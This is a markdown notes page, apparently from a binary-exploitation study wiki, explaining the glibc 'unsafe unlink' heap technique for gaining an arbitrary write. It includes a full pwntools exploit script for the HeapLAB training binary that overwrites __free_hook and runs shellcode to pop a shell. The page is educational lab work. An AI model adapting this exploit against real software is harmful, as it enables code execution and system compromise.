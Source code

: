 ```yaml
---
title: "Unsafe Unlink"
tags: [Binary Exploitation, Heap]
excerpt: "Unsafe Unlink"
layout: single
classes: wide
--- 
```


Exploiting free on a corrupted chunk to get arbitrary write. Unsafe unlinking process will result in a reflected arbitrary 8-byte write anywhere.

## Requirements
* Allocate chunks in the unsorted bin, `120 - 1000 bytes`
* Ability to corrupt `prev_size` and `prev_in_use` flag of a chunk, usually through heap overflow
* Ability to forge a fake freed chunk by writing valid `fd` and `bk` pointers in a chunk's data
    * `fd` and `bk` must both be writable addresses, such as GOT

## Process
### Arbitrary Write Primitive
_Assuming `target` is the address to be overwritten_
* Allocate 2 chunks in the unsorted bin
* In the fake free chunk:
    * `fd (first 8 bytes in chunk data)` contains `target`
    * `bk (next 8 bytes in chunk data)` contains 8-bytes to be written to `target`
* In the corrupted chunk:
    * Overwrite `prev_size` to be the size of the previous fake free chunk
    * Overwite `prev_in_use` to be 0, `size` of chunk `0x91 -> 0x90`
* Free the corrupted chunk
    * `bk` will contain `fd`, vice versa

## Example: HeapLAB unsafe_unlink   
_chunk A: fake free chunk, chunk B: corrupted chunk_  
RCE is gained by writing address of chunk A's data to `__free_hook`, and writing shellcode in chunk A's data as `NX` is not set.
```python
from pwn import *

config = {"elf" : "./unsafe_unlink"}

def malloc(size):
    sla('> ', '1')
    sla('size: ', str(size))

def edit(index, data):
    sla('> ', '2')
    sla('index: ', str(index))
    sla('data: ', data)

def free(index):
    sla('> ', '3')
    sla('index: ', str(index))

def exploit(p):
    # Get puts and heap leak
    ru('puts() @ ')
    puts = int(p.recvline().strip(), 16)
    ru('heap @ ')
    heap_addr = int(p.recvline().strip(), 16)
    
    # Calculate libc addresses
    libc.address = puts - libc.symbols['puts']
    free_hook = libc.symbols['__free_hook']

    malloc(0x88)
    malloc(0x88)
    
    # In chunk A: Forge fake free chunk by faking fd and bk
    # In chunk B: Overwrite prev_size and prev_in_use to make the heap think A is freed
    fd = free_hook - 24
    bk = heap_addr + 0x10
    prev_size = 0x90
    size = 0x90
    data = p64(fd) + p64(bk) + '\x00'*112 + p64(prev_size) + p64(size)
    edit(0, data)

    # Free chunk B, heap will try to consolidate A and B with unlinking
    # Overwrite fd with bk, bk with fd due to unsafe unlinking
    # __free_hook now points to data of chunk A
    free(1)

    # Write shellcode into data of chunk A
    shellcode = asm(shellcraft.sh())
    edit(0, shellcode)

    # Pop shell using free() and __free_hook
    free(0)
    
    lg('heap_addr: ' + hex(heap_addr))

    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])
    libc = elf.libc

    p = process(elf.path)
    pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```
